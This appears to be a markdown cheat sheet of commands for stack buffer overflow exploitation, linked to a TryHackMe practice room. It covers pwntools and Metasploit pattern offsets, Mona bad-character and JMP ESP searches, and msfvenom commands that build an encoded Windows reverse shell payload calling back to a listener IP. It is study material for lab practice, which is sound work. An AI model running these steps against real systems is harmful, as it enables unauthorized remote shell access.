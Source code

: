 # Generating unique patterns
buffer overflow stuff

## cyclic patterns
```
from pwn import *
cyclic(3000)
cyclic_find('abdd')
out[100] 2907
```


OR
```
cyclic_metasploit(3000)
cyclic_metasploit_find(0x33794332) 
```
OR

```
msf-pattern-create -l 3000
msf-pattern-offset -l 3000 -q 33794332

```
```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600
```

## Mona CheatSheet

**Setup your working directory**

`!mona config -set workingfolder c:\mona\%p`

<br>
<br>

`!mona findmsp -distance 600 `

`/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb  -l 2400 -q 6F43396E`



**Generate a byte array**

`!mona bytearray -b "\x00"`

<br>
<br>

**Run your fuzzer till a crash**

**compare your stuff**

`!mona compare -f C:\mona\bytearray.bin -a ESP`

<br>
<br>

**Add newly found bad chars to your list to be removed, and regenerate your badchars list**

`!mona bytearray -b "\x00\x0a"`

<br>
<br>

**Resend the new list of badchars, and then compare again**

`!mona compare -f C:\mona\bytearray.bin -a ESP`

<br>
<br>

## Finding a jump point 

```
!mona jmp -r esp -cpb "\x00"
```

## MSF Payloads

`msfvenom -l payloads `

`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.56.103 LPORT=443 EXITFUNC=thread  -f c –e x86/shikata_ga_nai -b "\x00\x0a"`

`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.56.103 LPORT=443 EXITFUNC=thread  -f c –e x86/shikata_ga_nai -b "\x00\x0a" > shelloutput1.txt`

`sed -z 's/\n//g' shelloutput1.txt | sed -z 's/"//g' - `

https://tryhackme.com/room/bufferoverflowprep 

https://www.youtube.com/watch?v=1X2JGF_9JGM 
